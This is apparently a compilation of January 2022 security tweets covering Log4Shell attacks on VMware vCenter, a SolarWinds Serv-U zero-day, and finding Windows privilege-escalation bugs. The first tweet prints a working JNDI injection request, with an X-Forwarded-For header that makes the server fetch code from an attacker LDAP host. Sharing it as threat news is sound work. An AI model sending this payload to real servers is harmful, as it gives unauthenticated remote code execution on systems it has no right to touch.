 
# wugeej
**https://twitter.com/wugeej/status/1484423859797622784 _at 2022-01-21, 07:13:22_**
<blockquote>
VMware vCenter Server Unauthenticated Log4Shell JNDI Injection RCE (CVE-2021-44228)

GET /websso/SAML2/SLO/vsphere.local?SAMLRequest= HTTP/1.1
X-Forwarded-For: ${jndi:ldap://10.10.10.10:1389/Exploit}

https://t.co/NDKkQK3csc
</blockquote>

* https://packetstormsecurity.com/files/165642/VMware-vCenter-Server-Unauthenticated-Log4Shell-JNDI-Injection-Remote-Code-Execution.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>332</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1484028070692782083 _at 2022-01-20, 05:00:38_**
<blockquote>
#Microsoft has detected hackers exploiting a new zero-day vulnerability (CVE-2021-35247) in #SolarWinds Serv-U software related to #Log4j attacks.

Read: https://t.co/Cc6iyLZ7RS

Serv-U version 15.3 has been released to patch the issue.

#infosec #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2022/01/microsoft-hackers-exploiting-new.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>115</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1483798563092107266 _at 2022-01-19, 13:48:39_**
<blockquote>
Reminder:
Finding privilege escalation vulnerabilities in Windows using Process Monitor is perhaps the easiest way to find a vulnerability, ever.
See CVE-2022-0166
https://t.co/cHg2W0khSS https://t.co/8amdUcprgj
</blockquote>
